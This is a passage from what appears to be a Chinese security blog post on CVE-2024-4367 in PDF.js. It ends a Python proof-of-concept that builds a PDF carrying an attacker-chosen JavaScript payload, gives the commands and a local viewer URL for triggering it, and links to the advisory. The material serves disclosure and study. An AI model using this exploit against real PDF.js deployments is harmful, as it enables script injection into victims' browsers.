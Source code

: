 ```
0000000577 00000 n 
0000001085 00000 n 
trailer
<<
/ID[(w4f) (w4f)]
/Root 1 0 R
/Size 11
>>
startxref
2333
%%EOF
'''
    with io.FileIO(filename, "wb") as file:
        file.write(pdf_content.encode())

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print('''Usage: python poc.py malicious.pdf "alert\('S4vvy')"''')
        sys.exit(1)
    filename = sys.argv[1]
    custom_payload = sys.argv[2]
    create_malicious_pdf(filename, custom_payload)
```  
  
**搭建PDF.js插件**  
  
****  
  
详情参见下方链接  
```
https://blog.csdn.net/meisnb/article/details/115183049
```  
  
**运行poc程序：**  
```
python poc.py test.pdf "alert\('xss')"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVy9I4sBNy2xvJqQVScrxNoD5Au6y7icOIfTqAXKX57Cs8uAnRVD6x7AKKHgMJ7kyhdqOxCzMYc5Olg/640?wx_fmt=png&from=appmsg "")  
  
****```
http://127.0.0.1/DPFjs/web/viewer.html?file=http://127.0.0.1/malicious.pdf
```  
  
****  
  
**0x06 参考链接**  
```
https://github.com/mozilla/pdf.js/security/advisories/GHSA-wgrm-67xf-hhpq
https://github.com/s4vvysec/CVE-2024-4367-POC
https://cloud.tencent.com/developer/article/2419680
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/n2rSqJSRAVzNPDEiadhLROCQUuMQyouq2OicjCbTSbk6ZLyzR1uHhPhJZLuZTFaM31tS5jvcDB3sfVsb9novFWeQ/640?wx_fmt=jpeg "")  
  
**本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**  
  
****  
**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。公众号内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**  
  
****  
```